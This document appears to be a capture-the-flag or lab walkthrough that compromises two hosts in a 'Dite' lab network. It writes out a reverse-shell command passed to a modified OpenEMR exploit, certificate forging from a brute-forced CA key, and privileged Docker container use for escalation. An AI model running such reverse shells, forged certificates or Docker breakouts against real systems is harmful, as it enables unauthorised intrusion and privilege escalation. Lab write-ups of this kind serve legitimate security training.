

# Exploitation Guide for Dite network 

# Acreage

## Enumeration

The intiial enumiration phase is to begin by evalauting the system. Two main ports should be visable to user. Http port which is running on port 443 though secured by https.

Upon scanning this with the dirb directory the a folder under the path `private` is identified. Upon visitng this directory a web page for an employeer portal is identified.

This is a directory intended for intranet only applications though it seems misconfigured. By attemptting to visit the private admin notes area we find the site is protected by HTTP based authentication.

Through some inspection we see that based on the default admin page it states that OpenEMR credentials should work. After trying to look up the default credentails and attempting to use them we find that authentication is successful.

We find a notes area of which there a few of files of which after further investigation we find to be x509 pem files.



We also attempt to visit the OpenEMR page but we find that it is blocked by what seems to be x509 verification requirments.

`You don't have permission to access this resource.Reason: Cannot perform Post-Handshake Authentication.`

Since we have certificates that we can make use of it is possible to attempt various techniques to further attempt to use the web application.

Though curl it is possible to test the funcationality of the service. We do this by running the following command while ensuring we specifiy the correct certificates and keys. 

```
[vagrant@dev ~]$ sudo curl --cert http-client.pem --cert-type PEM --key http-client.key --key-type PEM https://192.168.56.10/openemr-5_0_1_3 -vvvvvv
*   Trying 192.168.56.10...
* TCP_NODELAY set
* Connected to 192.168.56.10 (192.168.56.10) port 443 (#0)
* ALPN, offering h2
* ALPN, offering http/1.1
* successfully set certificate verify locations:
*   CAfile: /etc/pki/tls/certs/ca-bundle.crt
  CApath: none
* TLSv1.3 (OUT), TLS handshake, Client hello (1):
* TLSv1.3 (IN), TLS handshake, Server hello (2):
* TLSv1.3 (IN), TLS handshake, [no content] (0):
* TLSv1.3 (IN), TLS handshake, Encrypted Extensions (8):
* TLSv1.3 (IN), TLS handshake, [no content] (0):
* TLSv1.3 (IN), TLS handshake, Certificate (11):
* TLSv1.3 (IN), TLS handshake, [no content] (0):
* TLSv1.3 (IN), TLS handshake, CERT verify (15):
* TLSv1.3 (IN), TLS handshake, [no content] (0):
* TLSv1.3 (IN), TLS handshake, Finished (20):
* TLSv1.3 (OUT), TLS change cipher, Change cipher spec (1):
* TLSv1.3 (OUT), TLS handshake, [no content] (0):
* TLSv1.3 (OUT), TLS handshake, Finished (20):
* SSL connection using TLSv1.3 / TLS_AES_256_GCM_SHA384
* ALPN, server accepted to use http/1.1
* Server certificate:
*  subject: CN=acreage
*  start date: Dec 12 00:27:26 2021 GMT
*  expire date: Dec 13 00:27:26 2022 GMT
*  subjectAltName: host "192.168.56.10" matched cert's IP address!
*  issuer: CN=Dite Intermediate http CA
*  SSL certificate verify ok.
* TLSv1.3 (OUT), TLS app data, [no content] (0):
> GET /openemr-5_0_1_3 HTTP/1.1
> Host: 192.168.56.10
> User-Agent: curl/7.61.1
> Accept: */*
> 
* TLSv1.3 (IN), TLS handshake, [no content] (0):
* TLSv1.3 (IN), TLS handshake, Newsession Ticket (4):
* TLSv1.3 (IN), TLS handshake, [no content] (0):
* TLSv1.3 (IN), TLS handshake, Newsession Ticket (4):
* TLSv1.3 (IN), TLS handshake, [no content] (0):
* TLSv1.3 (IN), TLS handshake, Request CERT (13):
* TLSv1.3 (OUT), TLS handshake, [no content] (0):
* TLSv1.3 (OUT), TLS handshake, Certificate (11):
* TLSv1.3 (OUT), TLS handshake, [no content] (0):
* TLSv1.3 (OUT), TLS handshake, CERT verify (15):
* TLSv1.3 (OUT), TLS handshake, [no content] (0):
* TLSv1.3 (OUT), TLS handshake, Finished (20):
* TLSv1.3 (IN), TLS handshake, [no content] (0):
* TLSv1.3 (IN), TLS handshake, Newsession Ticket (4):
* TLSv1.3 (IN), TLS handshake, [no content] (0):
* TLSv1.3 (IN), TLS handshake, Newsession Ticket (4):
* TLSv1.3 (IN), TLS app data, [no content] (0):
< HTTP/1.1 301 Moved Permanently
< Date: Mon, 13 Dec 2021 01:08:07 GMT
< Server: Apache/2.4.37 (centos) OpenSSL/1.1.1g
< Location: https://192.168.56.10/openemr-5_0_1_3/
< Content-Length: 246
< Content-Type: text/html; charset=iso-8859-1
< 
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>301 Moved Permanently</title>
</head><body>
<h1>Moved Permanently</h1>
<p>The document has moved <a href="https://192.168.56.10/openemr-5_0_1_3/">here</a>.</p>
</body></html>
* Connection #0 to host 192.168.56.10 left intact
```

If this was to be run locally we would be required to specify a bundled ca certificate containing our CA and web Intermediate CA.

It is also possible to use the PKCS12 format to authenticate to the system via a browser. Though this is not a hard requirement. The main thing at this stage is to ensure we have valid keys and certificates. 

## Exploitation

Once we have reached the UI we can evalute the application further. We begin by login in using the default credentials. These `admin:admin` once logged in and the system version has been verified. We proceed to looking and downloading our exploit at the following location. 

https://www.exploit-db.com/exploits/45161

What is required is to modify the exploit so that the request package can authenticate and pass data to the web application.

The script can be editted by using the following code and the downloaded certificates from the enumiration phase: `requests.post('https://192.168.56.10/openemr-5_0_1_3', cert=('/home/m3rl1n/http-client.pem', '/home/m3rl1n/http-client.key'), verify='/home/m3rl1n/ca.pem')`

Once the sections in the script are ammended which should only be two post requests. Buro suite can also be use to further evalute things in this stage of the process.

`python3 45161.py http://192.168.56.10/openemr-5_0_1_3 -u admin -p admin -c 'bash -i >& /dev/tcp/you-local-system/4444 0>&1'`

This will spawn a netcat shell so ensure you have listener running before attempting to run the script. When the netcat listern is recived. The user is expected to perform enumiration of the system.

## Escalation

The main important thing in this instance is to identify that docker is running on the system. There is daemon also listening with the assoaited port. Attempting to curl the port would show that the it protect by mTLS.

The user should find a temp key on the remote system. This is CA-key with private but weak password which should be easly bruteforceable. This file would be located in the `/opt/temp-pki` with read permissions.

This key can be used to generate alternate docker x509 certificate and keys. These can the be used for autheication via the following method>

```
[vagrant@acreage ~]$ sudo docker -D -H "192.168.56.10:5555" --tlsverify --tlscacert=/etc/pki/dite_certs/ca-docker.pem --tlscert=/etc/pki/dite_certs/docker.pem --tlskey=/etc/pki/dite_certs/docker.key -l debug version
Client: Docker Engine - Community
 Version: 20.10.11     
 API version: 1.41           
 Go version:  go1.16.9       
 Git commit:   dea9396              
 Built:  Thu Nov 18 00:36:58 2021     
 OS/Arch:  linux/amd64 
 Context: default                                                                         Experimental: true                
Server: Docker Engine - Community
 Engine:  
 Version: 20.10.11
 API version:  1.41 (minimum version 1.12)
 Go version: go1.16.9
 Git commit: 847da18 
Built: Thu Nov 18 00:35:20 2021                                                                              OS/Arch: linuxamd64
Experimental:     false containerd: 
Version:          1.42
GitCommit:        7b11cfaabd73bb80907dd23182b9347b4245eb5d 
runc:                                                                             Version:          1.0.2
GitCommit:        v1.0.2-0-g52b36a2 
docker-init: 
Version:          0.19. 
GitCommit:        de40ad0          
```

We can the use this in assosiation with the run command in order to run a priviledge container. This can container be mounted to alternate paths or user retrive the proof text file. 

Authentication in this instance is occur via the HTTPS based docker API service.

There is also container that can be used on the host system.

```
REPOSITORY   TAG       IMAGE ID       CREATED       SIZE
ubuntu       latest    ba6acccedd29   8 weeks ago   72.8MB
```

# Facet

## Enumeration

Upon scanning the network we find that and host we find that there is a few ports open on the remote system. SSH and what appears to be a web application port on 3434. After inspecting this application we find that it seems to be a docker container. This container enables us to have further enumiration of the system.

After some inspection we find the application is not vulnrabale so we review other means of accessing the system. The SSH port could be possible based on information collected from the previous system.

We find that user certifcate authentication is possible on the system. There is multiple options that can be used in this instance. 

## Exploitation

We could generate new authentication keys using ssh-keygen. We have the user local `dockerdev` which could be also exist on the remote. 

Through using openssl and ssh-keygen to inspect some of the certification in the dite_certs directory which have infromation such as the user the key belongs to.

Once the key's are in place with the certificate. We attempt to ssh to the remote system. We find this to be successful when use the use certificate and key along side the user `dockerdev`. 

## Escalation

This user seems like it may have access to the docker socket. Upon login into the user account this does not seem to be the case. Attempting to run docker commands does not seem useful since the user is not part of the dockers users group. We see that it possible to run docker ps but not any other docker commands.

This means that sudeors file might be in user so an alternative way enumirate runable comands is required. Upon a little more inspection of the docker page we find that docker support SSH as a daemon. 

The docker ssh method does not support ssh arguments. Thus it was important to export the keys and user certifcates to the correct location. Then cofigure an sshd_config file with similar properties as the following.

```
Host facet.dite.local
        Hostname facet.dite.local
        User dockerdev
        IdentitiesOnly yes
        IdentityFile < Location of the private key>
        CertificateFile < Location of user certifcate >
        ControlMaster     auto
        ControlPath       ~/.ssh/control-%C
        ControlPersist    yes
```

Then it is possible to confiure the system via `export DOCKER_HOST=ssh://dockerdev@192.168.56.11`. It is possible to make this exchangable with the DNS name.

The docker interface may use an alternative service. When we provide this setting including the correct ssh configuration. We find that we are able to authenticate on the remote system. This includes running docker containers.

At this point we can proceed to use the container present on the system to mount volume, add user or retrive the proof.txt file.